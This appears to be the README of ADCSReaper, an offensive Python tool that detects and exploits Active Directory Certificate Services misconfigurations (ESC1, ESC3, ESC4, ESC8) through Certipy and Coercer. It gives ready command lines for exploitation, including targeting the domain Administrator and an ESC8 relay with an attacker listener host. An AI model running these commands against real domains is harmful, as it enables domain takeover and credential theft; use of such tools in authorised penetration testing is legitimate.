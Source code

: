 # ADCSReaper
A modular tool for enumerating and exploiting misconfigurations in Active Directory Certificate Services (ADCS).


```
 ▄▄▄      ▓█████▄  ▄████▄    ██████  ██▀███  ▓█████ ▄▄▄       ██▓███  ▓█████  ██▀███
▒████▄    ▒██▀ ██▌▒██▀ ▀█  ▒██    ▒ ▓██ ▒ ██▒▓█   ▀▒████▄    ▓██░  ██▒▓█   ▀ ▓██ ▒ ██▒
▒██  ▀█▄  ░██   █▌▒▓█    ▄ ░ ▓██▄   ▓██ ░▄█ ▒▒███  ▒██  ▀█▄  ▓██░ ██▓▒▒███   ▓██ ░▄█ ▒
░██▄▄▄▄██ ░▓█▄   ▌▒▓▓▄ ▄██▒  ▒   ██▒▒██▀▀█▄  ▒▓█  ▄░██▄▄▄▄██ ▒██▄█▓▒ ▒▒▓█  ▄ ▒██▀▀█▄
 ▓█   ▓██▒░▒████▓ ▒ ▓███▀ ░▒██████▒▒░██▓ ▒██▒░▒████▒▓█   ▓██▒▒██▒ ░  ░░▒████▒░██▓ ▒██▒
 ▒▒   ▓▒█░ ▒▒▓  ▒ ░ ░▒ ▒  ░▒ ▒▓▒ ▒ ░░ ▒▓ ░▒▓░░░ ▒░ ░▒▒   ▓▒█░▒▓▒░ ░  ░░░ ▒░ ░░ ▒▓ ░▒▓░
  ▒   ▒▒ ░ ░ ▒  ▒   ░  ▒   ░ ░▒  ░ ░  ░▒ ░ ▒░ ░ ░  ░ ▒   ▒▒ ░░▒ ░      ░ ░  ░  ░▒ ░ ▒░
  ░   ▒    ░ ░  ░ ░        ░  ░  ░    ░░   ░    ░    ░   ▒   ░░          ░     ░░   ░
      ░  ░   ░    ░ ░            ░     ░        ░  ░     ░  ░            ░  ░   ░
           ░      ░

```

## Features

- 🔍 Automated discovery of vulnerable certificate templates (ESC1, ESC3, ESC4, ESC8)
- 💣 Exploitation automation via Certipy & Coercer
- ✅ Safety checks to avoid unintended behavior
- 🔐 PFX file validation
- 📄 Structured logging with log rotation
- 🔧 Easily extensible architecture

## Requirements

- Python 3.8+
- Tools (installed & in $PATH):
  - [Certipy](https://github.com/ly4k/Certipy)
  - [Coercer](https://github.com/p0dalirius/Coercer)

```bash
# Certipy
pipx install git+https://github.com/ly4k/Certipy.git

# Coercer
sudo python3 -m pip install coercer
```

## Quickstart / Setup

```bash
git clone https://github.com/your-org/adcsreaper.git
cd adcsreaper
python3 adcsreaper.py -h
```

## Usage
### Detection Only
```bash
python3 adcsreaper.py -domain domain.local -username admin -password 'Pass123' -dc-ip 10.10.10.1 -detect
```

### Exploit ESC1
```bash
# default Administrator
python3 adcsreaper.py -domain domain.local -username admin -password 'Pass123' -dc-ip 10.10.10.1 -exploit -esc esc1

# custom target user
python3 adcsreaper.py -domain domain.local -username admin -password 'Pass123' -dc-ip 10.10.10.1 -exploit -esc esc1 -target-user Admin2
```

### Exploit ESC3
```bash
python3 adcsreaper.py -domain domain.local -username admin -password 'Pass123' -dc-ip 10.10.10.1 -exploit -esc esc3
```

### Exploit ESC4
```bash
python3 adcsreaper.py -domain domain.local -username admin -password 'Pass123' -dc-ip 10.10.10.1 -exploit -esc esc4
```

### Exploit ESC8
```bash
python3 adcsreaper.py -domain domain.local -username admin -password 'Pass123' -dc-ip 10.10.10.1 -exploit -esc esc8 -lhost 192.168.1.5
```

## Logging
- /var/log/adcsreaper/adcsreaper.log
